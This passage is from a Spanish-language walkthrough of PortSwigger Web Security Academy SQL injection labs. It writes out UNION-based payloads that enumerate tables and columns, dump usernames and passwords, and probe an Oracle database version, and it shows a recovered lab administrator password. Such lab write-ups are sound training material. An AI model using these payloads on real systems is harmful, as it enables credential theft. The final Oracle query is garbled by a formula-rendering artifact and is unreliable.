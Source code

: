 ahora si buscamos los usarios y las contraseñas
  
```http
https://acf71f531efe798180e3028300c30029.web-security-academy.net/filter?category=' union select username, password from users --
```
  
###  Retrieving multiple values within a single column
  
  
####  Lab6: SQL injection UNION attack, retrieving multiple values in a single column
  
  
Para este laboratorio solo podemos usar el segundo atributo pues el primero solo se permite el uso de enteros
  
```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=Gifts' union select null,tables_name from information_schema.tables --
```
  
ahora buscamos de la tabla users sus columnas y para que no nos de valores extra de la anterior consulta hacemso que la consulta por defecto no nos bote resultados acortando a `category='union select ...`
  
```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=' union select null,table_name||'<->'||column_name from information_schema.columns where table_name='users' --
```
  
Con esto ya tenemos las dos columnas `username` y `password`
  
```http
https://ac1c1f1b1f85900280d5c26a0063008a.web-security-academy.net/filter?category=' union select null,username||'<->'||password from users --
```
  
> administrator<->nqy8w4oj1tnda467u4lf
  
##  Examining the database
  
  
###  Querying the database type and version
  
  
####  Lab7: SQL injection attack, querying the database type and version on Oracle
  
  
De nuevo es averiguar el numero de columnas incialmente, pero en este caso el truco es intentar con el uso de una tabla dual que esta por defecto en la base de datos de oracle
  
```http
https://acc31f241f82d489800a5ce2002a001b.web-security-academy.net/filter?category=Accessories' union select null,null from dual --
```
  
ahora para sacar la version de un servidor de Oracle debemos adaptar la consulta `SELECT banner FROM v<img src="https://latex.codecogs.com/gif.latex?version`%20or%20`SELECT%20version%20FROM%20v"/>instance`
  
